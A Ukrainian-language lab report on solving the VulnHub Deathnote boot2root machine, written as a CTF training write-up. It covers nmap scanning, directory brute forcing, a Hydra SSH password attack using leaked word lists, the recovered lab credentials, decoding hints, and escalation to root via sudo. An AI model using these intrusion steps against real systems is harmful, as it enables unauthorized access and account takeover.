# CTF VulnHub — Deathnote

## Мета роботи

Дослідити процес проходження вразливої віртуальної машини **Deathnote** з платформи VulnHub, виконати розвідку цілі, отримати початковий доступ до системи та підготувати покроковий звіт щодо експлуатації виявлених слабких місць.

## Використане програмне забезпечення

- Kali Linux;
- VulnHub VM Deathnote;
- Nmap;
- dirsearch;
- curl;
- браузер Firefox/Chromium;
- Visual Studio Code.

## Теоретичні відомості

CTF-завдання типу **boot2root** передбачають поетапне отримання доступу до системи: спочатку виконується розвідка мережі та сервісів, далі — пошук початкової точки входу, отримання облікових даних, проникнення до системи та підвищення привілеїв до рівня суперкористувача.

У ході розвідки часто використовуються:

- `nmap` — для виявлення активних хостів, відкритих портів і сервісів;
- `dirsearch` або `gobuster` — для перебору директорій вебзастосунку;
- `curl` — для отримання вмісту вебресурсів напряму;
- редагування локального файла `hosts` — для коректного резолву доменних імен у локальному середовищі.

## Хід виконання роботи

### 1. Виявлення цільової машини в локальній мережі

На першому етапі було виконано аналіз мережевої конфігурації атакуючої машини за допомогою команд:

```bash
ip -br addr
ip r
```

Це дозволило визначити активні мережеві інтерфейси та підмережу, у якій знаходиться віртуальна машина з ціллю. Після цього для виявлення активних вузлів у підмережі було виконано команду:

```bash
sudo nmap -sn 192.168.56.0/24
```

У цьому випадку:

- параметр `-sn` використовується для виявлення активних хостів без сканування портів;
- `192.168.56.0/24` — локальна підмережа VirtualBox Host-Only Network.

У результаті сканування було виявлено кілька активних хостів, серед яких увагу привернула адреса:

```text
192.168.56.103
```

Саме ця IP-адреса надалі була використана як цільова машина Deathnote.




### 2. Сканування відкритих портів і сервісів

Після визначення IP-адреси цілі було виконано поглиблене сканування сервісів:

```bash
sudo nmap -sC -sV 192.168.56.103
```

У цьому запиті:

- `-sC` запускає стандартний набір NSE-скриптів;
- `-sV` визначає версії сервісів;
- `192.168.56.103` — IP-адреса цільової машини.

У результаті було встановлено, що на хості відкриті два порти:

```text
22/tcp  ssh   OpenSSH 7.9p1 Debian 10+deb10u2
80/tcp  http  Apache/2.4.38 (Debian)
```

Таким чином, було зроблено висновок, що подальше дослідження доцільно проводити через вебінтерфейс на 80 порту, а сервіс SSH може стати корисним на наступних етапах після отримання облікових даних.




### 3. Налаштування локального резолву доменного імені

Під час роботи з вебресурсом було встановлено, що ціль використовує доменне ім’я:

```text
deathnote.vuln
```

Щоб локальна система могла правильно резолвити це ім’я, до файла `/etc/hosts` було додано відповідний запис. Для цього було відкрито файл із правами адміністратора:

```bash
sudo nano /etc/hosts
```

До кінця файла було додано рядок:

```text
192.168.56.103 deathnote.vuln
```

Це дозволило звертатися до вебзастосунку не лише за IP-адресою, а й за доменним іменем.




### 4. Аналіз HTML-коду вебсторінки

Після переходу на вебсторінку `http://deathnote.vuln` було виконано аналіз HTML-коду сторінки за допомогою вбудованого інспектора браузера.

Під час пошуку за ключовим словом:

```text
kira
```

у коді було виявлено посилання на зображення та директорію WordPress:

```text
http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/...
```

Це дало підставу припустити, що на сервері або використовується WordPress, або принаймні залишилися його файли, доступні через вебсервер.




### 5. Перегляд директорії uploads і виявлення службових файлів

Після переходу до виявленої директорії:

```text
http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/
```

було отримано індексований список файлів. Серед наявних об’єктів особливу увагу привернули два текстові файли:

```text
notes.txt
user.txt
```

Наявність відкритого directory listing свідчить про неправильну конфігурацію вебсервера, оскільки користувач отримує можливість напряму переглядати вміст каталогу.




Отриманий результат дозволив зробити висновок, що ці файли можуть містити корисні дані для подальшої експлуатації, зокрема імена користувачів або підказки щодо паролів.

### 6. Пошук директорій вебзастосунку за допомогою dirsearch

Для автоматизованого пошуку прихованих директорій і файлів на вебсервері було використано інструмент `dirsearch`:

```bash
dirsearch -u http://deathnote.vuln/
```

У результаті сканування було знайдено декілька цікавих шляхів, серед яких:

```text
/robots.txt
/wordpress/wp-login.php
/manual/
/wordpress/
```

Особливо важливим виявився файл `robots.txt`, оскільки в CTF-завданнях він часто містить приховані підказки.




### 7. Аналіз файла robots.txt

Після переходу за адресою:

```text
http://deathnote.vuln/robots.txt
```

було виявлено текстове повідомлення з підказкою, у якому згадувалося:

```text
/important.jpg
```

Зміст повідомлення свідчив, що автор залишив підказку саме в цьому файлі.




### 8. Аналіз ресурсу important.jpg

При спробі відкрити файл у браузері за адресою:

```text
http://deathnote.vuln/important.jpg
```

було отримано повідомлення про те, що зображення не може бути відображене через помилки у вмісті.




Оскільки ресурс мав нетипову поведінку, було вирішено отримати його вміст напряму за допомогою команди:

```bash
curl http://deathnote.vuln/important.jpg
```

У відповідь було повернуто текстове повідомлення, а не бінарні дані зображення. У цьому повідомленні містилася важлива інформація:

```text
login username : user.txt
i don't know the password.
find it by yourself
i do think it is in the hint section of site
```




Таким чином, було встановлено, що:

- файл `user.txt` імовірно містить логін або список логінів;
- пароль необхідно шукати самостійно;
- додаткова підказка вказує на “hint section” сайту, тобто на вже знайдені текстові файли або інші приховані ресурси.

Отже, наступним логічним кроком є завантаження та аналіз файлів `user.txt` і `notes.txt`, а також спроба підбору облікових даних для SSH.

### 9. Аналіз завантажених файлів `user.txt` і `notes.txt`

Після виявлення відкритого списку файлів у директорії `/wordpress/wp-content/uploads/2021/07/` було завантажено два текстові файли:

```text
user.txt
notes.txt
```

Їх наявність у каталозі завантажень було перевірено командою:

```bash
ls -la /home/kali/Downloads
```

У результаті було підтверджено, що обидва файли успішно завантажені та доступні для подальшого аналізу.




Оскільки раніше з файла `important.jpg` було отримано підказку про те, що `user.txt` пов’язаний із логіном, а пароль треба шукати самостійно, було зроблено припущення, що:

- `user.txt` може містити ім’я користувача;
- `notes.txt` може містити можливі варіанти паролів або словник для підбору.

### 10. Підбір облікових даних SSH за допомогою Hydra

Для перевірки гіпотези щодо використання знайдених файлів як джерела логіна та пароля було застосовано утиліту `hydra`:

```bash
hydra -L user.txt -P notes.txt 192.168.56.103 ssh
```

У цій команді:

- `-L user.txt` задає файл зі списком логінів;
- `-P notes.txt` задає файл зі списком паролів;
- `192.168.56.103` — IP-адреса цільової машини;
- `ssh` — сервіс, для якого виконується підбір.

У результаті було знайдено дійсні облікові дані:

```text
login: l
password: death4me
```




Таким чином, було отримано початковий доступ до системи через SSH.

### 11. Підключення до системи через SSH

Після отримання облікових даних було виконано підключення до цільової машини:

```bash
ssh l@192.168.56.103
```

Під час першого підключення система запросила підтвердження нового SSH-ключа хоста, після чого було введено знайдений пароль:

```text
death4me
```

У результаті було отримано shell-доступ до системи від імені користувача `l`.




### 12. Отримання першого прапора та аналіз повідомлення у `user.txt`

Після входу було переглянуто домашній каталог користувача:

```bash
ls -la
```

Серед файлів був виявлений файл:

```text
user.txt
```

Його вміст було прочитано командою:

```bash
cat user.txt
```

У файлі містився не звичайний текст, а послідовність символів, характерна для мови **Brainfuck**.




Для декодування цього повідомлення було використано онлайн-інтерпретатор Brainfuck. Після вставлення вмісту файла `user.txt` було отримано повідомлення:

```text
i think u got the shell , but you wont be able to kill me -kira
```


Отримане повідомлення вказувало на користувача `kira`, що стало підказкою для подальшого пошуку слідів цього користувача в системі.

### 13. Пошук файлів і каталогів, пов’язаних із користувачем `kira`

Для пошуку об’єктів файлової системи, пов’язаних із `kira`, було виконано команду:

```bash
find / -name "kira*" 2>/dev/null
```

У результаті було знайдено кілька цікавих шляхів, зокрема:

```text
/home/kira
/home/kira/kira.txt
/opt/L/kira-case
/var/www/deathnote.vuln/wordpress/wp-content/uploads/2021/07/kiralogo...
```




Після цього було зроблено спробу прочитати файл:

```bash
cat /home/kira/kira.txt
```

але доступ було заборонено. Тому подальше дослідження було спрямовано на каталог:

```text
/opt/L/kira-case
```

### 14. Аналіз каталогу `kira-case`

Після переходу до каталогу було виконано:

```bash
cd /opt/L/kira-case
ls -la
cat case-file.txt
```

Файл `case-file.txt` містив текстовий опис справи, у якому згадувалося, що додаткову інформацію знайдено у каталозі:

```text
fake-notebook-rule
```




Щоб підтвердити наявність цього каталогу, було переглянуто вміст `/opt/L`:

```bash
cd /opt/L
ls -la
```

У результаті було виявлено дві директорії:

```text
fake-notebook-rule
kira-case
```




### 15. Отримання пароля користувача `kira`

Після переходу до каталогу:

```bash
cd /opt/L/fake-notebook-rule
ls -la
```

було виявлено два важливі файли:

```text
hint
case.wav
```

Вміст файла `hint` було прочитано командою:

```bash
cat hint
```

У ньому містилося повідомлення:

```text
use cyberchef
```

Після цього було переглянуто вміст `case.wav`:

```bash
cat case.wav
```

Файл не містив звичайного аудіо, а повертав шістнадцяткове представлення даних. Це значення було оброблено в **CyberChef** — спочатку перетворено з **Hex**, а потім декодовано додатково, що дозволило отримати пароль користувача `kira`.




У результаті декодування було отримано пароль користувача `kira`, який надалі було використано для переходу до цього облікового запису.

### 16. Перехід до користувача `kira`, підвищення привілеїв і отримання `root.txt`

Після отримання пароля було виконано перехід до користувача `kira`:

```bash
su kira
```

Після успішної автентифікації було виконано команду:

```bash
sudo -i
```

Оскільки користувач `kira` мав право виконувати `sudo`, вдалося отримати привілеї суперкористувача та перейти в оболонку `root`.

Далі було переглянуто вміст домашнього каталогу `root`:

```bash
ls -la
```

Серед файлів було знайдено:

```text
root.txt
```

Вміст файла було отримано командою:

```bash
cat root.txt
```

У результаті було виведено фінальний прапор машини.




Таким чином, у ході проходження CTF Deathnote було:

- виконано мережеву розвідку й виявлено цільову машину;
- досліджено вебзастосунок і знайдено приховані підказки;
- отримано початкові SSH-облікові дані;
- здобуто shell-доступ до системи;
- проаналізовано додаткові підказки та знайдено пароль користувача `kira`;
- виконано підвищення привілеїв до рівня `root`;
- отримано фінальний прапор із файла `root.txt`.

